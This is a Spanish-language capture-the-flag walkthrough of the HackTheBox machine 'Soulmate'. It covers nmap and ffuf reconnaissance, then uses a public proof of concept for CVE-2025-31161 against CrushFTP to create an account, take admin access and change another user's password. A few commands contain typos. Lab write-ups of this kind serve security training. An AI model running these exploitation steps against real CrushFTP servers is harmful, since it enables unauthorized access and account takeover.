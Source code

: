 # Metodologías de ataque

Creamos nuestra carpeta con el nombre de la maquina `soulmate` y dentro crearemos las subcarpetas para cada fase `content, exploits, nmap, scripts`

Revisamos la conexion a la ip

```bash
ping -c 2 10.10.11.86
```
Respuesta:
<pre>
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=139 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=141 ms

--- 10.10.11.86 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 139.407/139.959/140.511/0.552 ms
</pre>

Teniendo la respuesta ingresamos a la ip que nos entrega HTB, en mi caso es la 10.10.11.86

Nos indica que no pudo resolver soulmate.htb

![No se puede acceder a este sitio](../../assets/1. Ver pagina.png)

Ingresamos al archivo hosts e ingresamos la ip y el dominio que nos indica en la pagina

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.hth
</pre>

Recargamos la pagina y deberiamos ya poder ver el inicio:

![Index](../../assets/2. Inicio pagina.png)


Realizamos un escaneo en nmap y en paralelo haremos escaneos de directorios y subdominios

## Escaneo previo
**Full TCP (nmap):**
```bash
nmap -vvv -sS -p- --min-rate 1000 -n -Pn 10.10.11.86 -oG nmap/allPorts
```

Respuesta:
<pre>
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-28 13:38 -03
Initiating SYN Stealth Scan at 13:38
Scanning 10.10.11.86 [65535 ports]
Discovered open port 22/tcp on 10.10.11.86
Discovered open port 80/tcp on 10.10.11.86
Increasing send delay for 10.10.11.86 from 0 to 5 due to 382 out of 1272 dropped probes since last increase.
Increasing send delay for 10.10.11.86 from 5 to 10 due to max_successful_tryno increase to 4
Completed SYN Stealth Scan at 13:38, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.86
Host is up, received user-set (0.26s latency).
Scanned at 2025-09-28 13:38:09 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
</pre>

Vemos que tenemos 2 puertos, usaremos esos para escanearlos

## Escaneo de servicios
**Servicios + scripts:**
```bash
nmap -v -sC -sV --min-rate 1000 -p 22,80 -n 10.10.11.86 -oG nmap/targeted
```

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## Fuzzing de directorios web
```bash
ffuf -w /usr/share/wordlists/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://soulmate.htb/FUZZ -o content/dirs-soulmate.json -of json -t 25 -fw 6110
```

Respuesta:

<pre>
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]

</pre>

## Fuzzing de subdominios / vhosts
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" -o content/domains-soulmate.json -of json -t 25
```

Respuesta:

<pre>
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 228ms]
</pre>

## Fuzzing de archivos

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://soulmate.htb/assets/FUZZ -e .php,.html,.bak,.txt -recursion -recursion-depth 2 -mc 200,301,302 -fc 404 -t 25 -ocontent/extensions-soulmate.jsonn -of json 
```

Respuesta:

<pre>
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 139ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/css/FUZZ

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/css/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/FUZZ

profiles                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 138ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/profiles/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/profiles/FUZZ

:: Progress: [23615/23615] :: Job [4/4] :: 197 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
</pre>

Ingresamos a cada uno de los directorios para verificar algun heartbleed pero no se obtiene nada favorable.

Intentamos acceder al ftp del sitio: ftp.soulmate.htb

![FTP server](../../assets/3. ftp-site.png)

Agregamos el ftp al archivo hosts.

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.htb ftp.soulmate.htb
</pre>

recargamos la pagina y ya deberiamos tener acceso al ftp

![CrushFTP login](../../assets/4. ftp-site-login.png)

En caso de no cargar probar con la combinacion de teclas Ctrl+F5 para recargar cache.

Dentro de la pagina hacemos una inspeccion de código y verificamos que la version del CrushFTP es la `v11.W.657`

Realizamos una busqueda en google y validamos la vulnerabilidad: "11.W.657 CRUSHFTP Vuln"

y encontramos el CVE de la vulnerabilidad: CVE-2025-31161

Fuente: https://s2grupo.es/vulnerabilidades-crushftp-2025/

Realizamos otra busqueda en google con la CVE: CVE-2025-31161 y vemos que en github hay una POC en python para usarse

![POC-CrushFTP](../../assets/5. POC-CrushFTP.png)

Descargamos la POC y la ejecutamos:

```bash
cd exploits
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
python3 cve-2025-31161.py
```
Respuesta:

<pre>
[-] Target host not specified
usage: cve-2025-31161.py [-h] [--target_host TARGET_HOST] [--port PORT] [--target_user TARGET_USER] [--new_user NEW_USER] [--password PASSWORD]

Exploit CVE-2025-31161 to create a new account

options:
  -h, --help            show this help message and exit
  --target_host TARGET_HOST
                        Target host
  --port PORT           Target port
  --target_user TARGET_USER
                        Target user
  --new_user NEW_USER   New user to create
  --password PASSWORD   Password for the new user

</pre>

Nos pide ingresar los datos en este orden (probaremos con el usuario root que es el mas común):

```bash
python3 --target_host http://ftp.soulmate.htb --port 80 --target_user root --new_user prueba --password admin123
```

Respuesta:

<pre>
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
<strong>[+] Exploit Complete you can now login with
   [*] Username: prueba
   [*] Password: admin123.</strong>
</pre>

Tenemos el usuario creado, ahora validamos el acceso:

![Dentro de CrushFTP](../../assets/6. Dentro de CrushFTP.png)

Empezamos a navegar en el portal y lo primero que vemos es la opcion de Admin, dentro de esta opcion navegamos por el menu hasta que llegamos a la parte de User Manager. Donde podemos ver los usuarios registrados hasta el momento.

Probaremos con el primer usuario a ver si le podemos cambiar la password y presionamos en Save:

![Cambio de pass de usuario](../../assets/7. Cambiar password a usuario.png)


> **Recordatorio:** documentar comandos, salidas y autorización es obligatorio. Uso exclusivo en entornos autorizados.

